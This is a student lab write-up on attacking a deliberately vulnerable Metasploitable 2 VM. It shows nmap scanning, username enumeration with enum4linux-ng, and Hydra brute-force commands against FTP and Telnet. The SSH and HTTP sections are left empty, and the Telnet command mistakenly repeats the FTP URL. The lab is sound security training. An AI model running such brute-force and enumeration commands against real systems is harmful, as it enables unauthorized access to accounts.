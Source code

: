 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective

1. Explore **vulnerabilities** in common network protocols (FTP, TELNET, SSH & HTTP).
3. Perform brute force attacks to recover passwords.
4. Use recovered credentials to sniff network traffic.
5. Analyze the security posture of each protocol.
6. Propose effective mitigation strategies.
---

## 🛠️ Requirement

| Tool               | Purpose                        |
|--------------------|--------------------------------|
| Kali Linux         | Attacker machine               |
| Metasploitable 2   | Target/vulnerable machine      |
| Wordlist           | Password brute-forcing         |
| Nmap               | Port scanning                  |
| Hydra              | Brute force tool               |
| Burp Suite         | HTTP interception & testing    |
| enum4linux-ng      |                                |
| Python3            |                                |

---

## 🔥 Pre-Heat
1. Performed a port scan using Nmap:
   ```
   nmap -sV -p 21,23,22,80 [target-ip]
   ```
   | Option              | Meaning                                                                                                         |
   |---------------------|-----------------------------------------------------------------------------------------------------------------|
   | `nmap`              | Runs the Nmap network scanner tool.                                                                               |
   | `-sV`               | **Service/version detection** — Nmap will try to determine what software and version is running on each open port.    |
   | `-p 21,23,22,80`    | Tells Nmap to scan **only** these specific ports: <br>• `21` = FTP <br>• `23` = Telnet <br>• `22` = SSH <br>• `80` = HTTP    |
   | `[target-ip]`       | Replace with the IP address of the target/vulnerable machine you are scanning.                                     |

   - Result:
     ![image](assets/nmap-result.png)
     > Here I only scan FTP(21), TELNET(23), SSH(22) and HTTP(80) port.

2. Create Python Virtual Enviroment:
   ```
   python3 -m venv crypto-Venv
   source crypto-Venv/bin/activate
   ```
3. Install enum4linux-ng:
   ```
      git clone https://github.com/cddmp/enum4linux-ng.git
      cd enum4linux-ng
      python3 -m pip install -r requirements.txt
   ```
---

## 🔍 Lab Tasks

### Task 1: Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
---

#### 🚶‍♂️‍➡️ The Process:

1. Enumurate Username Using Enum4linux-ng:

   You may run this script like normal:
   ```
   python3 enum4linux-ng.py -A [target-ip]
   ```
   
   But my version will grep username only and append to username.txt. Useful for brute force tasks: 
   ```
   python3 enum4linux-ng.py -A [target-ip] | grep "username:" | sed 's/username: //' >> username.txt
   ```
   > Make sure run the script in enum4linux-ng directory   

   - Result:
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ python3 enum4linux-ng.py -A 192.168.109.131 | grep "username:" | sed 's/username: //' >> username.txt

      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat username.txt 
        root
        daemon
        bin
        sys
        sync
        games
        man
        lp
        mail
        news
        uucp
        proxy
        www-data
        backup
        list
        irc
        gnats
        libuuid
        dhcp
        syslog
        klog
        sshd
        bind
        postfix
        ftp
        postgres
        mysql
        tomcat55
        distccd
        telnetd
        proftpd
        msfadmin
        user
        service
        nobody
      ```
      > Here I execute the script and filter the output to extract lines containing username:. Then, I strip the username: prefix and save the resulting usernames to a file named list.username.txt.
      
      **Potential usernames for brute force attacks:**
     
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat potential-username.txt 
      root
      ftp
      postgres
      mysql
      tomcat55
      proftpd
      msfadmin
      user
      ```
      > Here, I narrowed down the list to potential usernames for brute force attacks. 

---

### Task 2: Perform Brute Force Attacks
   - For brute force attaks we need a two things:
        - potential-username.txt
        - password.txt

   - but how to get the password? There is many list online out there, but for this task we utilized ChatGPT for generate potential password based on the username:
        - [Password.txt](wordlist/password.txt)

   ---

#### 2.1: FTP, TELNET, and SSH

##### FTP:

For do brute force attack, I use Hydra:
   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```

   - Results:
     ![Image](assets/Hydra-bruteforce-FTP-result.png)

   ---
   
##### TELNET:

   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```
   - Results:
     ![Image](assets/Hydra-Bruteforce-Telnet-result.png)

   ---
   
##### SSH:

   ---

#### 2.2: HTTP

## 🎯 Objective

   1. Use Burp Intruder to automate brute force attacks against an HTTP login page.
   2. Configure Intruder to test a list of usernames and passwords.
   3. Analyze the results to identify successful logins.
---




